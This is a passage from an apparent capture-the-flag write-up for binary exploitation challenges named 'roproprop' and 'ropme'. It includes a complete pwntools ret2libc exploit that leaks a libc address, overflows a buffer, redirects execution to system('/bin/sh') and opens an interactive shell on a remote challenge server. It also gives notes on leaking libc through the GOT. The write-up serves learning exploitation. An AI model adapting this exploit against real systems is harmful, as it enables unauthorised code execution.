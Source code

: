 From here it's just a matter overflowing the buffer in `joke` then overwriting the return address with the address of `system`. We also write a dummy return address for post-`system` execution and the address of a /bin/sh string used as the parameter for `system`.


Exploit:
```
from pwn import *

PROG_NAME = "./roproprop"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 6003
REMOTE_LIBC = "./libc-2.23.so"
LOCAL_LIBC = "/lib32/libc.so.6"

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
    libc = ELF(REMOTE_LIBC)
else:
    p = process(PROG_NAME)
    elf = p.elf
    libc = ELF(LOCAL_LIBC)

p.recvuntil("- ")
# the pointer we're given is a libc leak of setbuf
setbuf_leak = int(p.recvline()[:-3], 16)
p.recvline()

libc_base = setbuf_leak - libc.symbols['setbuf']
libc.address = libc_base
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))

payload = b'A'*(0x4ca+0x4)
payload += p32(system_addr)
payload += b'BBBB' #return addr we don't care about
payload += p32(binsh_addr)

p.sendline(payload)

p.interactive()

```

ropme
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
I realised quickly that in order to leak the libc base address, I should be looking do execute something like `puts(*puts)` to get the dynamic address of the `puts` libc function, and then subtract the `puts` offset since I have the libc that was being used on the remote. However I got weird addresses that didn't start with `0xf7f?????`. After some time I realised that I was printing out the plt entry of `puts` rather than the `got` entry (which is update by the linker after the first call to puts).
